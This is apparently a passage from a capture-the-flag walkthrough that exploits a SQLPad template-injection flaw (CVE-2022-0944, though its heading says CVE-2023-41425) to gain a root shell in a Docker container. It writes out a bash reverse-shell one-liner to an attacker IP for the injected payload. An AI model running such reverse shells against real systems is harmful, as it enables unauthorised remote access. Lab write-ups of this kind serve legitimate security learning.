 CVE-2023–41425 Description
--------------------------

> CVE-2022–0944 is a template injection vulnerability in SQLPad versions prior to 6.10.1, specifically in the connection test endpoint, which allows remote code execution.

1.  According to the exploit, we need to choose MySQL as the driver and input the payload below in the **Database** form field. #CVE-2023-41425 #RemoteCodeExecution 

**Payload:**

![Weird Error popped up when pasting this payload in code block in medium](https://miro.medium.com/v2/resize:fit:1248/format:webp/1*tOCnmXgxOCO-CLk4h4rZew.png)

2. Let’s fire up the burp suite, and capture the request.

![captionless image](https://miro.medium.com/v2/resize:fit:1284/format:webp/1*xqx9BCkCxI7dnP5xlq8GPg.png)

3. Let’s test this, capture the request, and send it to the repeater.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*GxUYtHuDLLgbm_UNMXJr6Q.png)

4. There are two inputs as “database”, we can find which input field is making the connection by connecting to our IP.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Y_G_6CDXrdYaHDp3ppR1fA.png)![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*WNruBzTfxxRgMWy2AX1rIg.png)

5. It made a connection, we can use the second “database” field.

6. We need to craft a one-liner bash reverse shell payload with base64 encoded to send in the SSTI payload. #SSTIpayload #ReverseShell 

Exploit:
--------

**_Command — Base64 encoded bash reverse shell: bash_** 

```
echo -n "bash -i >& /dev/tcp/10.10.14.156/9001 0>&1" | base64 -w0 
```

7. Let’s craft the SSTI payload with this reverse shell payload and send it via burp repeater.

**Payload:**

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*3O7FarIH1pDmq6Bo8tgKDg.png)

Reverse Shell Listener:
-----------------------

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*gVxIGISWSbxpTqXFtLx4wQ.png)

8. Now we are root in a docker container. #docker

Lateral Movement
================

i. User Flag
------------

